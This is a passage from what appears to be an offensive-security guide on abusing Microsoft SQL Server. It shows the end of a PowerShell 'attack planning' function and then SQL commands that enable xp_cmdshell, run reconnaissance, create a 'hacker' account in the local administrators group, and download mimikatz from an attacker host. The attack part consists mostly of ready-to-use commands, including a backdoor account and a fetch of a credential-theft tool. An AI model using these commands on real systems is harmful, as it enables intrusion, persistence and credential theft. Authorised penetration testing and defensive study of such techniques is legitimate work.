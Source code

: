 ```powershell
        Write-Host "`nExecution Steps:" -ForegroundColor Cyan
        foreach ($step in $attackPlan.ExecutionSteps) {
            Write-Host "  $step"
        }
        
        return $attackPlan
        
    }
    catch {
        Write-Warning "SQL Server abuse attack planning failed: $($_.Exception.Message)"
        return $null
    }
}

# Plan SQL Server abuse attacks
$sqlAttackPlan = Plan-SQLServerAbuseAttacks -SQLResults $sqlResults
```

**Tool Explanation:**
- **Attack Planning**: Plan SQL Server abuse attacks
- **Escalation Paths**: Map privilege escalation paths
- **Tool Requirements**: Identify required tools
- **Execution Steps**: Generate execution steps
- **Advantages**: Attack planning, tool identification, execution guidance
- **Disadvantages**: Complex planning, requires attack knowledge

## 🚀 Practical SQL Server Attacks

### **xp_cmdshell Exploitation Commands**

#### **1. Enable and Use xp_cmdshell**
```sql
-- Enable xp_cmdshell (requires sysadmin)
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'xp_cmdshell', 1
RECONFIGURE

-- Execute commands
EXEC xp_cmdshell 'whoami'
EXEC xp_cmdshell 'net user'
EXEC xp_cmdshell 'ipconfig /all'

-- Create new user account
EXEC xp_cmdshell 'net user hacker Password123! /add'
EXEC xp_cmdshell 'net localgroup administrators hacker /add'

-- Download files
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://attacker.com/mimikatz.exe -OutFile C:\temp\mimikatz.exe"'
```
